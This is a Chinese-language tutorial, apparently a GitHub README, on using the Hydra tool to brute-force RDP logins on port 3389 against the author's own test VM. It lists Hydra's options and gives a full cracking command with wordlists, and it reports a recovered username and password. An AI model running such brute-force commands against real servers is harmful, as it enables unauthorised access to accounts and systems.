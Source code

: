 ### 在线破解工具Hydra爆破3389服务器
hydra是一款全能的暴力破解工具，功能强大，几乎支持所有的协议，是著名黑客组织thc开发的。

在Kali Linux下已经是默认安装的，于是测试爆破一下自己的一台VM虚拟机服务器。hydra还支持GUI图形界面(xhydra)，不过习惯还是命令好用。

(爆破3389端口终端登录的帐号和密码 协议：rdp)

帮助命令：hydra -h  //查看基本用法

参数说明：

#
	hydra [[[-l login|-L file] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
	[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w time] [-f] [-s PORT] [-S] [-vV]
	server service [OPT]
	-R 继续从上一次进度接着破解。
	-S 采用SSL链接。
	-s PORT 可通过这个参数指定非默认端口。
	-l LOGIN 指定破解的用户，对特定用户破解。
	-L FILE 指定用户名字典。
	-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
	-P FILE 大写，指定密码字典。
	-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
	-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
	-M FILE 指定目标列表文件一行一条。
	-o FILE 指定结果输出文件。
	-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
	-t TASKS 同时运行的线程数，默认为16。
	-w TIME 设置最大超时的时间，单位秒，默认是30s。
	-v / -V 显示详细过程。
	server 目标ip
	service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb
	smbnt http-{head|get} 
	http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql
	mysql oracle-listener 
	postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-
	auth[-ntlm] pcanywhere 
	teamspeak sip vmauthd firebird ncp afp等等。	
#

#### 爆破过程：
![](https://github.com/silence940109/Java/blob/master/Linux_Hydra/image/777998-20160129150436380-748025426.jpg)

其中命令：hydra 192.168.1.12 rdp -L users.txt -P pass.txt -V 

192.168.12是目标服务器的IP地址

rdp 是协议

-L 指定一个帐号字典

-P 指定一个密码字典

-V 现实爆破测试的详细过程

![](https://github.com/silence940109/Java/blob/master/Linux_Hydra/image/777998-20160129150850818-876268901.jpg)

爆破成功，成功破解出帐号为test，密码为qwer123456  开始测试登录服务器

![](https://github.com/silence940109/Java/blob/master/Linux_Hydra/image/777998-20160129150954068-1302053372.jpg)

